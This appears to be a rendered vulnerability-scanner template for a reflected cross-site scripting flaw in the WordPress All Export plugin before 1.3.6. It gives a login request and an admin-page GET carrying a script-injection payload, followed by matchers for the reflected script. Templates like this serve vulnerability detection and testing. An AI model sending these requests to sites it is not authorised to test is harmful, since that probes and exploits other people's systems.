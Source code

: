 ### Matchers

**Type - word**

- part - body
- words
  1. ">\<script>alert(1)\</script>
  2. 404 Error Logs
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress All Export \<1.3.6 - Cross-Site Scripting

## Description

- WordPress All Export plugin before version 1.3.6 does not escape some URLs before outputting them back in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - wp-plugin,xss,wp,wordpress,authenticated,wpscan

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=pmxe-admin-manage&a"><script>alert(1)</script> HTTP/1.1
Host: {{Hostname}}

```
